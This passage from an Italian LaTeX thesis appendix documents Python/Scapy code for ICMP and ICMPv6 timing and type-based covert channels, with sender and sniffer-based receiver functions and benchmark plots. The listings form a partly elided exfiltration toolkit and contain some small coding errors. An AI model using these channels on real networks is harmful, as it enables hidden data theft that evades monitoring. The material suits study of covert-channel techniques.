        for piece_data in data: #BIG ENDIAN
            arr=[(piece_data >> index) & 1 for index in range(8)]
            bit_data.append(arr) #LSB  
        
        start_time=datetime.datetime.now(datetime.timezone.utc) 
        pkt= (
            Ether(dst=dst_mac, src=src_mac) 
            /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src) 
            /ICMPv6EchoReply(type=TYPE_INFORMATION_REPLY) 
            /Raw(load="Hello Neighbour".encode())
        ) 
        ans = sendp(pkt, verbose=1,iface=interface)  
        for piece_bit_data in bit_data:
            for bit in piece_bit_data:
                if bit: 
                    time.sleep(TEMPO_1) 
                else: 
                    time.sleep(TEMPO_0)
                current_time=datetime.datetime.now(datetime.timezone.utc)
                pkt= (
                    Ether(dst=dst_mac, src=src_mac) 
                    /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src) 
                    /ICMPv6EchoReply(type=TYPE_INFORMATION_REPLY) 
                    /Raw()
                ) 
                ans = sendp(pkt, verbose=1,iface=interface) 
            time.sleep(TEMPO_BYTE)
        end_time=datetime.datetime.now(datetime.timezone.utc) 
\end{lstlisting}
\captionof{lstlisting}{Timing Covert Channel a 1 bit v6} 
\label{script:appendice:attacksingleton:send:v6_timing_channel:1bit} 
%-----------------------------------

\subsubsection{Timing Covert Channel con 2 bit} 
Se confrontato con [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:1bit}] si noteranno varie somiglianze: 
\begin{itemize}
    \item Anche qui viene definito un \textbf{tempo base} e da quello vengono derivati i tempi dei codici [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:2bit} line 8] 
    \item Dai byte presenti nei dati vengono estratti i singoli bit (secondo un ordine LSB) e aggiunti a una lista [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:2bit} line 18] 
    \item Viene mandato un pacchetto per inizializzare il tempo del ricevente e poi si itera su tutti i bit presenti nella lista definita prima. 
    \item In base alla sequenza di bit ricevuti si aspetta un determinato tempo [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:2bit} line 24] 
\end{itemize}
Le differenze saranno nel modo in cui i bit vengono iterati e come viene ricavato il tempo di attesa. 
\vspace{1ex} \newline
Infatti siccome si prenderanno coppie di bit; 
si avranno due iteratori che resituiranno ognuno una parte di codice [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:2bit} line 23] 
\vspace{1ex} \newline 
Invece per ricavare il tempo di attesa, si usano i bit appena ottenuti, per ricostruire l'indice che si dovrà passare alla lista che li contiene [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:2bit} line 24]. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={}, emphstyle=\color{red} 
    ,emph={[2]DISTANZA_TEMPI, TEMPI_CODICI, TEMPO_BYTE},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst}, emphstyle={[3]\color{olive}} 
    ,emph={[4]},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_timing_channel_2bit(data:bytes=None, ip_dst): 
    if not com.is_bytes(data) or not com.is_IPAddress(ip_dst):
        raise Exception(f"Argoemnti non corretti")
    if ip_dst.version!=4:
        print(f"IP version is not 4: {ip_dst.version}")
        return False
    
    DISTANZA_TEMPI=2 #sec
    #00, 01, 10, 11 
    TEMPI_CODICI=[3+index*2*DISTANZA_TEMPI for index in range(2**2)] 
    TEMPO_BYTE=0*60 #minuti 
        
    TYPE_ECHO_REQUEST=8
    TYPE_ECHO_REPLY=0
    midnight = datetime.datetime.now(datetime.timezone.utc)
    midnight = midnight.replace(hour=0, minute=0, second=0, microsecond=0)

    bit_data=[]
    for piece_data in data: #BIG ENDIAN
        arr=[(piece_data >> index) & 1 for index in range(8)]
        bit_data.append(arr) #LSB 
    
    start_time=datetime.datetime.now(datetime.timezone.utc)
    pkt= IP(dst=ip_dst)/ICMP(type=TYPE_ECHO_REPLY)/Raw() 
    ans = send(pkt, verbose=1) 
    for piece_bit_data in bit_data:
        for bit1, bit2 in zip(piece_bit_data[0::2], piece_bit_data[1::2]): 
            time.sleep(TEMPI_CODICI[(bit1<<1)+bit2]) 
            current_time=datetime.datetime.now(datetime.timezone.utc)
            pkt= IP(dst=ip_dst)/ICMP(type=TYPE_ECHO_REPLY)/Raw() 
            ans = send(pkt, verbose=1)  
        time.sleep(TEMPO_BYTE)
    end_time=datetime.datetime.now(datetime.timezone.utc) 
\end{lstlisting}
\captionof{lstlisting}{Timing Covert Channel a 2 bit} 
\label{script:appendice:attacksingleton:send:v4_timing_channel:2bit} 

\subsubsection*{Versione che usa il protocollo IPv6} 
Se confrontato con [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:1bit}] si noteranno varie somiglianze: 
\begin{itemize}
    \item Anche qui viene definito un \textbf{tempo base} e da quello vengono derivati i tempi dei codici [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:2bit} line 8] 
    \item Dai byte presenti nei dati vengono estratti i singoli bit (secondo un ordine LSB) e aggiunti a una lista [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:2bit} line 34] 
    \item Viene mandato un pacchetto per inizializzare il tempo del ricevente e poi si itera su tutti i bit presenti nella lista definita prima. 
    \item In base alla sequenza di bit ricevuti si aspetta un determinato tempo [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:2bit} line 46] 
\end{itemize}
Le differenze saranno nel modo in cui i bit vengono iterati e come viene ricavato il tempo di attesa. 
\vspace{1ex} \newline
Infatti siccome si prenderanno coppie di bit; 
si avranno due iteratori che resituiranno ognuno una parte di codice [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:2bit} line 45] 
\vspace{1ex} \newline 
Invece per ricavare il tempo di attesa, si usano i bit appena ottenuti, per ricostruire l'indice che si dovrà passare alla lista che li contiene [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:2bit} line 46]. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv6_timing_channel_2bit}, emphstyle=\color{red} 
    ,emph={[2]interface, dst_mac, src_mac, TEMPO_0, DISTANZA_TEMPI, TEMPO_1},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, addr_src, addr_dst, data, ip_dst, piece_data}, emphstyle={[3]\color{olive}} 
    ,emph={[4]index, pkt, dummy_pkt, bit_data, bit},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv6_timing_channel_2bit(data:bytes=None, addr_src, addr_dst): 
        if not (is_bytes(data) and is_IPaddr(addr_src) and is_IPaddr(addr_dst)):
            raise Exception(f"Argoemnti non corretti")
        if addr_dst.version!=6:
            print(f"IP version is not 6: {addr_dst.version}")
            return False
        
        DISTANZA_TEMPI=2 #sec
        TEMPI_CODICI=[]
        for index in range(2**2)
            TEMPI_CODICI.append(3+index*2*DISTANZA_TEMPI) #00, 01, 10, 11 
        TEMPO_BYTE=0*60 #minuti  
        
        TYPE_INFORMATION_REQUEST=128
        TYPE_INFORMATION_REPLY=129

        try:
            interface,_= mymethods.iface_src_from_IP(addr_dst) 
            if interface is None:  
                interface=mymethods.default_iface()
                com.ping_once(addr_dst,interface)
            interface,_= mymethods.iface_src_from_IP(addr_dst)
            if interface is None:
                raise Exception("Problema con l'interfaccia non risolto")  
        except Exception as e: 
            interface=mymethods.default_iface() 
        dst_mac=com.get_mac_by_ipv6(addr_dst, addr_src, interface)  
        src_mac = get_if_hwaddr(interface) 
        
        midnight= datetime.datetime.now(datetime.timezone.utc)
        midnight= midnight.replace(hour=0, minute=0, second=0, microsecond=0)  
        bit_data=[]
        for piece_data in data: #BIG ENDIAN 
            arr=[(piece_data >> index) & 1 for index in range(8)]
            bit_data.append(arr) #LSB  
            
        start_time=datetime.datetime.now(datetime.timezone.utc)
        pkt= (
            Ether(dst=dst_mac, src=src_mac) 
            /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src) 
            /ICMPv6EchoReply(type=TYPE_INFORMATION_REPLY) 
            /Raw()
        ) 
        ans = sendp(pkt, verbose=1,iface=interface)  
        for piece_bit_data in bit_data:
            for bit1, bit2 in zip(piece_bit_data[0::2], piece_bit_data[1::2]): 
                time.sleep(TEMPI_CODICI[(bit1<<1)+bit2]) 
                current_time=datetime.datetime.now(datetime.timezone.utc)
                pkt= (
                    Ether(dst=dst_mac, src=src_mac) 
                    /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src) 
                    /ICMPv6EchoReply(type=TYPE_INFORMATION_REPLY) 
                    /Raw()
                ) 
                ans = sendp(pkt, verbose=1,iface=interface)  
            time.sleep(TEMPO_BYTE)
        end_time=datetime.datetime.now(datetime.timezone.utc) 
\end{lstlisting}
\captionof{lstlisting}{Timing Covert Channel a 1 bit v6} 
\label{script:appendice:attacksingleton:send:v6_timing_channel:2bit} 
%-----------------------------------

\subsubsection{Timing Covert Channel con 4 bit} 
Un \textit{Timing Covert Channel} a \textbf{4 bit} sarà simile a quello a \textit{due bit} [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:2bit}]. 
Ciò che cambierà è il numero di bit che vengono estratti (in questo caso 4). 
\vspace{1ex} \newline 
Tuttavia sebbene un numero maggiore di bit vengono codificati anche il tempo necessario per poterli spedire aumenta. 
In particolare si sono testati i vari \textit{Timing channel} sull testo \textbf{echo 'Ciao'}. 
Di seguito i tempi di esecuzione.  
\begin{center} 

\begin{tikzpicture}
\begin{axis}[
    xlabel={Numero di bit codificati},
    ylabel={Tempo di esecuzione (in secondi)},
    grid=major,
    width=\textwidth,
    height=0.618\textwidth, 
    domain=0.5:4.5,
    ymin=400,
    ymax=750
]

% Plot points
\addplot[only marks, mark=*, mark size=3pt, red] 
coordinates {(1,513.962674) (2,440.978946) (4,720.745110)};
%08:33.962674   07:20.978946    12:00.745110)

% Plot interpolated function (quadratic through 3 points)
\addplot[blue, thick, samples=100] 
%{176.375*x^2-602.109*x+939.696}; 
{74.844354*x^2 - 297.516790*x + 736.635110};

% Add labels for the points 
\node[above right] at (axis cs:1,513.962674) {1 bit Time Channel};
\node[below right] at (axis cs:2,440.978946) {2 bit Time Channel};
\node[below left] at (axis cs:4,720.745110) {4bit Timing Channel};

\end{axis}
\end{tikzpicture}
\end{center}
Vediamo che il \textit{primo} metodo (che spediva un singolo bit) per spedire \textit{11 bytes} (e quindi \textit{88 bit}) ha impiegato \textbf{8 minuti, e 33 secondi}. 
Il \textit{secondo} ci ha impiegato \textbf{7 minuti e 20 secondi}. 
Mentre il \textit{terzo} ha terminato dopo \textbf{12 minuti}. 
Da ciò si deduce che il metodo da preferire, per inviare i dati, sia quello che codifica \textit{2 bit} alla volta. 
\footnote{
    Non si è testato il tempo di esecuzione quando si utilizzano 3 bit alla volta. 
    Dovendo spedire dei byte e non essendo 8 una multiplo del 3, questo metodo è stato ignorato. 
}

\subsubsection*{Versione che usa il protocollo IPv6}  
La versione \textit{IPv6} è simile alla sua versione \textit{IPv4}; 
ciò che cambierà è il ocme verranno spediti i pacchetti. 
Infatti, in questo caso sarà necessario conoscere l'interfaccia da cui i messaggi usciranno oltre all'indirizzo MAC delle interfacce di sorgente e di uscita. 
Inoltre nella struttura del paccheto sarà presente il livello \textit{Ether}. 
\vspace{1ex} \newline
Rispetto alla veriosne per IPv4 cambiano anche i tempi di esecuzione ma il risultato finale rimane uguale. 
Quindi anche in questo caso l Timing Covert Channel a 2 bit risulta migliore. 
\begin{center} 

\begin{tikzpicture}
\begin{axis}[
    xlabel={Numero di bit codificati},
    ylabel={Tempo di esecuzione (in secondi)},
    grid=major,
    width=\textwidth,
    height=0.618\textwidth, 
    domain=0.5:4.5,
    ymin=700,
    ymax=1500
]

% Plot points
\addplot[only marks, mark=*, mark size=3pt, red] 
coordinates {(1,886) (2,728) (4,1340)};
%08:33.962674   07:20.978946    12:00.745110)

% Plot interpolated function (quadratic through 3 points)
\addplot[blue, thick, samples=100] 
%{102*x^2 - 464*x + 1248};
{(464/3)*x^2 - 622*x + (4060/3)};

% Add labels for the points 
\node[above right] at (axis cs:1,886) {1 bit Time Channel};
\node[above] at (axis cs:2,728) {2 bit Time Channel};
\node[above left] at (axis cs:4,1340) {4bit Timing Channel};

\end{axis}
\end{tikzpicture}
\end{center}
Vediamo che il \textit{primo} metodo (che spediva un singolo bit) per spedire \textit{11 bytes} (e quindi \textit{88 bit}) ha impiegato \textbf{14 minuti e 46 secondi}. 
Il \textit{secondo} ci ha impiegato \textbf{12 minuti e 8 secondi}. 
Mentre il \textit{terzo} ha terminato dopo \textbf{22 minuti e 20 secondi}. 
Da ciò si deduce che il metodo da preferire, per inviare i dati, sia quello che codifica \textit{2 bit} alla volta. 
\footnote{
    Non si è testato il tempo di esecuzione quando si utilizzano 3 bit alla volta. 
    Dovendo spedire dei byte e non essendo 8 una multiplo del 3, questo metodo è stato ignorato. 
} 


%-----------------------------------

\subsection{Metodo chiamato per aspettare i dati}
Quando si vogliono ricevere dei dati tramite gli attacchi metodi definiti prima; 
non lo si fà direttametne chiamando i metodi associati alla tipologia di attacco. 
Si chiamerà invece il metodo \textbf{wait\_data} che prenderà in input: 
\begin{itemize}
    \item La tipologia di attacco dalla quale si apsettano i dati. 
    \item L'indirizzo IP di destinazione; ovvero il destinatario dei dati. 
    \item LKa lista nei quali i dati dovranno essere memorizzati. 
    \item L'indirizzo IP di origine; ovvero il mittente che ha spedito le informazioni. 
\end{itemize} 
Dopodichè definisce la variabile \textbf{singleton} com l'istanza della classe \textit{ReceiveSingleton} e confronta l'attacco scelto con quelli disponibili. 
Una volta che c'è un match; chiama il metodo associato e ritorna il valore che viene ritornato una volta che il metodo ha terminato. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={wait_data}, emphstyle=\color{red} 
    ,emph={[2]singleton, attack_code},emphstyle={[2]\color{blue}} 
    ,emph={[3]attack_func, ip_dst, info_data, ip_src}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def wait_data(attack_func, ip_dst, info_data, ip_src): 
    if not (is_dict(attack_func) and is_IPaddr(ip_dst) and is_list(info_data)): 
        raise Exception("Argomenti non validi")
    singleton=ReceiveSingleton() 
    attack_code=next(iter(attack_func.items()))[0]
    try:
        match attack_code:
            case "ipv4_12"|"ipv4_info_reply"|"ipv4_11"|"ipv4_info_request": 
                return singleton.ipv4_info_request(ip_dst, info_data, ip_src)
            case "ipv4_19"|"ipv4_time_rep"|"ipv4_9"|"ipv4_time_req": 
                return singleton.ipv4_timestamp_req(ip_dst, info_data, ip_src)
            case "ipv4_3"|"ipv4_redirect": 
                return singleton.ipv4_redirect(ip_dst, info_data, ip_src)
            case "ipv4_2"|"ipv4_source_quench": 
                return singleton.ipv4_source_quench(ip_dst, info_data, ip_src)
            case "ipv4_8"|"ipv4_param_problem":  
                return singleton.ipv4_param_problem(ip_dst, info_data, ip_src) 
            case "ipv4_7"|"ipv4_time_exceeded": 
                return singleton.ipv4_time_exceeded(ip_dst, info_data, ip_src)
            case "ipv4_1"|"ipv4_destination_unreachable": 
                return singleton.ipv4_dest_unreach(ip_dst, info_data, ip_src)
            case "ipv4_4"|"ipv4_timing_channel_1bit": 
                return singleton.ipv4_timing_cc(ip_dst, 1, info_data, ip_src)  
            case "ipv4_5"|"ipv4_timing_channel_2bit": 
                return singleton.ipv4_timing_cc(ip_dst, 2, info_data, ip_src) 
            case "ipv4_6"|"ipv4_timing_channel_4bit": 
                return singleton.ipv4_timing_cc(ip_dst, 4, info_data, ip_src) 
        
            case "ipv6_9"|"ipv6_info_rep"|"ipv6_8"|"ipv6_info_req": 
                return singleton.ipv6_info_request(ip_dst, info_data, ip_src)
            case "ipv6_4"|"ipv6_parameter_problem": 
                return singleton.ipv6_parameter_problem(ip_dst, info_data, ip_src)
            case "ipv6_3"|"ipv6_time_exceeded": 
                return singleton.ipv6_time_exceeded(ip_dst, info_data, ip_src)
            case "ipv6_2"|"ipv6_packet_to_big": 
                return singleton.ipv6_packet_to_big(ip_dst, info_data, ip_src)
            case "ipv6_1"|"ipv6_dest_unreach": 
                return singleton.ipv6_dest_unreach(ip_dst, info_data, ip_src)
            case "ipv6_5"|"ipv6_timing_channel_1bit": 
                return singleton.ipv6_timing_cc(ip_dst, 1, info_data, ip_src) 
            case "ipv6_6"|"ipv6_timing_channel_2bit": 
                return singleton.ipv6_timing_cc(ip_dst, 2, info_data, ip_src) 
            case "ipv6_7"|"ipv6_timing_channel_4bit": 
                return singleton.ipv6_timing_cc(ip_dst, 3, info_data, ip_src) 
        print("Caso non conemplato")
        return None
    except Exception as e:
        print(f"wait_data Eccezione: {e}")
\end{lstlisting}
\captionof{lstlisting}{Metodo per aspettare i dati} 
\label{script:appendice:attacksingleton:wait_data} 

\subsection{Classe \textit{ReceiveSingleton}}
La classe conterrà i metodi utilizzati per ricevere i dati che un identità ha mandato 
(nel nostro caso saranno la vittima, il proxy, \dots). 
Quindi per ogni tipologia di attacco sfruttabile [Code:\ref{script:appendice:attacksingleton:attackDict}], 
si sarà definito il metodi che permette di ricevere i dati. 

\subsubsection{Struttura di un metodo che riceve i dati} 
Siccome i metodi sono strutturati in maniera simile, si descriverà un singolo metodo per poi indicare le possibili differenze che i successivi potranno avere. 
\footnote{La maggior parte delle differenze si avranno nelle callback} 
Il seguente metodo permette di ricevere i dati di tipo \textbf{Information Request/Reply} ed è definito in questo modo. 
\begin{itemize}
    \item In input richiede l'indirizzo IP di destinazione, quello di origine e la lista che conterrà i dati finali e raffinati. 
    \item Definisce un ulteriore lista che conterrà i dati grezzi; ovvero i dati raccolti durante l'analisi del traffico. 
    Oltre alle variabili seguenti
    \item Il codice che identifica, nei pacchetti ICMP, la tipologia \textit{Information Request} e \textit{Information Reply}. 
    \item Un threading Event, utilizzato per indicare quando si è finito di monitorare il traffico di rete. 
    \item L'interfaccia su cui ascoltare il flusso delle informazioni
    \item Il filtro utilizzato per scremare i pacchetti desiderati
\end{itemize} 
Terminato di definire queste variabili, si definirà gli argomenti che verranno passato allo sniffer e lo si faràa partire. 
Iniziando così l'ascolto dei pacchetti [Code \ref{script:appendice:attacksingleton:waitData:ipv4:information_request} line 21]. 
\vspace{1ex} \newline 
Una volta finito di monitorare il flusso dei dati, si fermano sia lo sniffer che il timer ricavati precedentemente; 
e si raffinano i dati [Code \ref{script:appendice:attacksingleton:waitData:ipv4:information_request} line 32]. 
Questi dati verranno poi memorizzati nella lista passata in input. 
\vspace{1ex} \newline 
Il metodo terminerà informando se il prelevamento dei dati è andato a buon fine; 
ritornando una variabile booleana che sarà vera nel caso positivo. 
\vspace{2ex} 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_information_request, callback_ipv4_info_request}, emphstyle=\color{red} 
    ,emph={[2]information_data, event_pktconn, interface, filter, args},emphstyle={[2]\color{blue}} 
    ,emph={[3]ip_dst, final_data, ip_src}, emphstyle={[3]\color{olive}} 
    ,emph={[4]sniffer, pkt_timer},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_information_request(ip_dst, final_data, ip_src): 
    if not com.is_IPAddress(ip_dst) or not com.is_list(final_data): 
        raise Exception(f"Argomenti non corretti") 
    information_data=[] 
    TYPE_INFORMATION_REQUEST=15 
    TYPE_INFORMATION_REPLY=16 
    try: 
        event_pktconn=com.get_threading_Event()
        interface= mymethods.default_iface() 
        filter=f"icmp and (icmp[0]==15 or icmp[0]==16) and dst {ip_dst}"
        if com.is_IPAddress(ip_src): 
            filter+=f" and src {ip_src}"
        else: print("No need to listen for the source")
    except Exception as e:
        raise Exception(f"ipv4_information_request Eccezione: {e}") 
    try: 
        args={
            "filter": filter 
            ,"prn": callback_ipv4_info_request(event_pktconn,information_data) 
            ,"iface":interface
        }
        sniffer,pkt_timer=com.sniff_packet(
            args
            ,timeout_time=None
            ,event=event_pktconn
        ) 
    except Exception as e:
        raise Exception(f"ipv4_information_request Eccezione: {e}")
    try: 
        com.wait_threading_Event(event_pktconn) 
        com.stop_sinffer(sniffer)
        if com.stop_timer(pkt_timer): 
            joined="".join(information_data)
            cleaned="".join(x for x in joined if x in string.printable)
            final_data.append(cleaned) 
            print(f"Done waiting 'parameter_problem' received: {final_data}") 
            return True 
        return False  
    except Exception as e:
        raise Exception(f"ipv4_information_request Eccezione: {e}")
\end{lstlisting}
\captionof{lstlisting}{Aspettando i dati da una mittente} 
\label{script:appendice:attacksingleton:waitData:ipv4:information_request} 

\subsubsection*{Metodi che usano IPv4} 
I metodi successivi avranno la stessa struttura; 
ciò che principalmente cambierà sarà il valore associato alla tipologia di messaggio ICMP (es info request=15, timestamp request=13, \dots) 
e la funzione di callback utilizzata. 
In ogni caso i cambiamenti verranno indicati in [Code \ref{script:appendice:attacksingleton:waitData:ipv4:cambiamenti}]
\vspace{2ex} 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_parameter_problem, ipv4_source_quench, ipv4_redirect, ipv4_timestamp_request}, emphstyle=\color{red} 
    ,emph={[2]numero_bit},emphstyle={[2]\color{blue}} 
    ,emph={[3]ipv4_timing_cc, ipv4_destination_unreachable, ipv4_time_exceeded}, emphstyle={[3]\color{red}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_timestamp_request(...): 
    TYPE_TIMESTAMP_REQUEST=13
    TYPE_TIMESTAMP_REPLY=14 
    ...
    args={
        ...
        ,"prn": callback_v4_timestamp_request(event_pktconn,timestamp_data)
    }

def ipv4_redirect(...): 
    TYPE_REDIRECT=5 
    ...
    args={ 
        ...
        ,"prn": callback_v4_redirect_message(event_pktconn,redirect_data) 
    } 

def ipv4_source_quench(...): 
    TYPE_SOURCE_QUENCH=4 
    ... 
    args={ 
        ...
        ,"prn": callback_v4_source_quench(event_pktconn,source_quench_data) 
    } 

def ipv4_parameter_problem(...): 
    TYPE_PARAMETER_PROBLEM=12 
    ... 
    args={ 
        ...
        ,"prn": callback_v4_param_problem(event_pktconn, param_problem_data) 
    } 

def ipv4_time_exceeded(...): 
    TYPE_TIME_EXCEEDED=11 
    ... 
    args={ 
        ...
        ,"prn": callback_v4_time_exceeded(event_pktconn, time_exceeded_data) 
    } 

def ipv4_destination_unreachable(...): 
    TYPE_DESTINATION_UNREACHABLE=3  
    ... 
    args={ 
        ...
        ,"prn": callback_v4_dest_unreach(event_pktconn, dest_unreach_data) 
    } 

def ipv4_timing_cc(ip_host, numero_bit, final_data, ip_src): 
    TYPE_ECHO_REQUEST=8
    TYPE_ECHO_REPLY=0 
    ... 
    callback_function=lambda: timeout_timing_covertchannel(event_pktconn)
    timer_timing_CC=com.get_timeout_timer(None,callback_function) 
    args={ 
        ...
        ,"prn": callback_v4_timing_cc(
            callback_function
            ,event_pktconn
            ,timer_timing_CC
            ,timing_data
            ,last_packet_time
            ,numero_bit
        ) 
    } 
    ...
    com.wait_threading_Event(event_pktconn) 
    str_data=""
    for integer in timing_data:
        str_data+=format(integer, f'0{numero_bit}b') 
    raw_data="" 
    for index in range(0, len(str_data), 8):
        int_data=0
        for bit in str_data[index:index+8][::-1]:
            int_data=int_data<<1|int(bit)
        raw_data+=chr(int_data)
    ... 
\end{lstlisting}
\captionof{lstlisting}{Metodi IPv4 per aspettare i dati} 
\label{script:appendice:attacksingleton:waitData:ipv4:cambiamenti} 

\subsubsection*{Metodi che usano IPv6} 
Nel caso di questi metodi, che usano IPv6, le modifiche saranno simili a quelle dei metodi precedenti. 
Tuttavia in questo caso nel filtro non si userà il protocollo ICMP ma il protocollo ICMP6. 
\vspace{2ex} 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv6_timing_cc, ipv6_destination_unreachable, ipv6_packet_to_big}, emphstyle=\color{red} 
    ,emph={[2]numero_bit},emphstyle={[2]\color{blue}} 
    ,emph={[3]ipv6_time_exceeded, ipv6_parameter_problem, ipv6_information_request}, emphstyle={[3]\color{red}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
]  
def ipv6_information_request(...): 
    TYPE_INFORMATION_REQUEST=128
    TYPE_INFORMATION_REPLY=129  
    ... 
    filter= f"icmp6 and (icmp6[0]==128 or icmp6[0]==129) and dst {ip_host}"
    if com.is_IPAddress(ip_src): 
        filter+=f" and src {ip_src}" 
    args={ 
        ...
        ,"prn": callback_v6_info_request(event_pktconn, info_request_data) 
    } 

def ipv6_parameter_problem(...): 
    TYPE_PARAMETER_PROBLEM=4 
    ... 
    args={ 
        ...
        ,"prn": callback_v6_param_problem(event_pktconn, param_problem_data) 
    } 

def ipv6_time_exceeded(...): 
    TYPE_TIME_EXCEEDED=3 
    ... 
    args={ 
        ...
        ,"prn": callback_v6_time_exceeded(event_pktconn,time_exceeded _data) 
    } 

def ipv6_packet_to_big(...): 
    TYPE_PKT_BIG= 2 
    ... 
    args={ 
        ...
        ,"prn": callback_v6_packet_to_big(event_pktconn, packet_to_big_data) 
    } 

def ipv6_destination_unreachable(...): 
    TYPE_DESTINATION_UNREACHABLE=1 
    ... 
    args={ 
        ...
        ,"prn": callback_v6_dest_unreach(event_pktconn, dest_unreach_data) 
    } 

def ipv6_timing_cc(ip_dst, numero_bit=0, final_data=[], ip_src=None): 
    TYPE_INFORMATION_REQUEST=128
    TYPE_INFORMATION_REPLY=129
    ... 
    callback_function=lambda: timeout_timing_covertchannel(event_pktconn)
    timer_timing_CC=com.get_timeout_timer(None,callback_function) 
    args={ 
        ...
        ,"prn": callback_v6_timing_cc(
            callback_function 
            ,event_pktconn 
            ,timer_timing_CC 
            ,timing_data 
            ,last_packet_time 
            ,numero_bit 
        ) 
    }  
\end{lstlisting}
\captionof{lstlisting}{Metodi IPv6 per aspettare i dati} 
\label{script:appendice:attacksingleton:waitData:ipv6:cambiamenti}  

\subsection{Funzioni di Callback}
Le callback descrittte in seguito, si occuperanno di analizzare i pacchetti passati. 
Questi pacchetti saranno tutti quelli che hanno suoperato il filtro definito dai metodi descritti precedentemente. 
Quindi dal pacchetto le \textit{callabck} estrarranno i dati nascosti al suo interno. 

\subsubsection{Callback del Parameter Problem} 
